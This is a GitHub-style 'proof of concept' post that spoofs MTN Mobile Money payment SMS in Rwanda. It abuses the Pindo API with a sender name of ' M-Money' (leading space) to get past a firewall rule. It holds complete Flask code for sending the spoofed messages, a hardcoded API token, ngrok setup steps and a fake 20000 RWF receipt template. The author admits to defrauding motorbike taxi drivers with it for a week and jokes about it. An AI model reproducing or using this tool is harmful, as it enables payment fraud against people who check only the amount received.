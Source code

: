 # Proof of concept 

Hy all I Hope you're doing Great! I've got some wild news to share about the Pindo API that'll probably blow your mind. 🔥
but first i have to clear one thing out. this is for educational purposes only .. don't attempt to do something funny or you will get arrested.

So While diving deep into the tech ocean, I stumbled upon something that had me raising an eyebrow. It turns out that there's this ninja-like way users can play around with the system. By sneaking in spaces before or after a company name in messages, it's like a digital cloak that can turn anyone into a master of disguise. Cool, right?

But wait, it gets even cooler. I went ahead and put this thing to the test. Sent some money via MTN Mobile Money and guess what? The name checking seems to be on a coffee break. I kid you not, I’ve been moving around sending money to people back and forth to check if the whole thing works .. for a whole week its like I have a money tank or something 😂😂😂😂😂😂… the easiest target was motorbikes of course .. this thing was intoxicating.. Because they’re the ones who only check for the amount money that was received but never open the whole message 😆.. I don’t know why they appealed to me like an easy target TBH. 😎

But fear not, the good news is, I've got your back. I've done some digging, and MTN's firewall seems to be on the lookout for messages that scream "M-Money." That's where the magic happens to put it simply mtn's firewall rules are only set to detect message that has exactly "M-Money" as message title . Toss in a sly space, like "M-Money " and you're basically a mobile money wizard. Seriously, it's like you've sent money to someone without even breaking a sweat.

Now, here's where the plot thickens. It's a slick move for folks who've got places to be and only peek at their messages and the cash flow. Caught a few curious cats, though, ones who've got an eye for detail. Can't fool everyone, right? 😄

Now, I'm not just here to tease you with tech tales. I've got something in store. I've whipped up a POC, a proof of concept, that'll show you this slick space trick in action. The repo is all set and ready to rumble on GitHub. Check it out and let me know what you think.

```python
from flask import Flask, render_template, request, redirect, flash
from flask_wtf import FlaskForm
from wtforms import StringField, TextAreaField
from wtforms.validators import DataRequired
from flask_sqlalchemy import SQLAlchemy
import requests

app = Flask(__name__)
app.config['SECRET_KEY'] = 'idontdrinkmyownpee'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///messages.db'  # Use SQLite database
db = SQLAlchemy(app)

class SMSForm(FlaskForm):
    numbers = StringField('Phone Numbers (comma-separated)', validators=[DataRequired()])
    message = TextAreaField('Message', validators=[DataRequired()])

class Message(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    numbers = db.Column(db.String(255), nullable=False)
    message = db.Column(db.String(255), nullable=False)

PINDO_API_TOKEN = 'eyJhbGciOiJub25lIn0.eyJpZCI6OTgyLCJyZXZva2VkX3Rva2VuX2NvdW50IjowfQ.'

@app.route('/', methods=['GET', 'POST'])
def send_sms():
    form = SMSForm()

    if form.validate_on_submit():
        numbers = form.numbers.data
        message = form.message.data

        numbers_list = [num.strip() for num in numbers.split(',')]

        headers = {'Authorization': 'Bearer ' + PINDO_API_TOKEN}
        url = 'https://api.pindo.io/v1/sms/'

        with app.app_context():  # Enter the application context
            for number in numbers_list:
                data = {'to': number, 'text': message, 'sender': ' M-Money'}
                response = requests.post(url, json=data, headers=headers)

                print(f'Sending to {number}: {response.status_code}')

                # Store the sent message in the database
                new_message = Message(numbers=number, message=message)
                db.session.add(new_message)
                db.session.commit()

            flash('SMS sent successfully!', 'success')
            return redirect('/')

    return render_template('index.html', form=form)

if __name__ == '__main__':
    with app.app_context():  # Enter the application context
        db.create_all()  # Create database tables
    app.run(debug=True)
```

you can use my pindo api token for configuration but you can easily get your token when you sign in … matter of fact you don’t even have to use legitimate information … as long as you have a google account you’re good to go when you sign in to pindo you check your profile for the token and use the same token but its worth checking it out explore yourself 
then then when you run `python3 app.py` considering that you’ve name your app app.py
it runs locally on address 172.0.0.1:5000 on port 5000 because flasks projects typically runs on port 5000

and then to make the app available to the internet by port forwarding manually or use this tool(NGROK) i used ngrok of course am not gonna talk about it but you can get an account right now if you have google account [https://dashboard.ngrok.com/signup](https://dashboard.ngrok.com/signup) you can also create ngrok accoung to get their token for free without providing your personal deatails and here’s the link to download it using git clone [https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz](https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz) .. after downloading you check the file type and unzip it using gzip -d “filename” and when the unzip is done the file will come with .tar extension use tar xvf to unarchive it . and then run
`ngrok config add-authtoken "token"`  you’ll use your personal token and after configuring you run it with ./ngrok http 5000 and when you its fully operational you can copy the link provided and paste it in your browser address and then you see something like this and then you make ngrok run on the same project run on port 5000 as soon as you the local application is on the internet you get an url you input in your browser for sending messages and now when you send the message its like this …..

i used this template as a message 

`You have received 20000 RWF from UWERA MARIE CLAIRE (*********876) on your mobile money account at 2023-08-10 03:27:39. Message from sender: 1. Your new balance: 2018 RWF. Loyalty fee was 0 and loyalty reward was 0. Promotion was 0. Financial Transaction Id: 10438338079.`

of course you edit the message to make it look legitimate and when you hop on off the bike you send your imaginary money then you’re good to go.
thats was cool right?

Happy hacking.
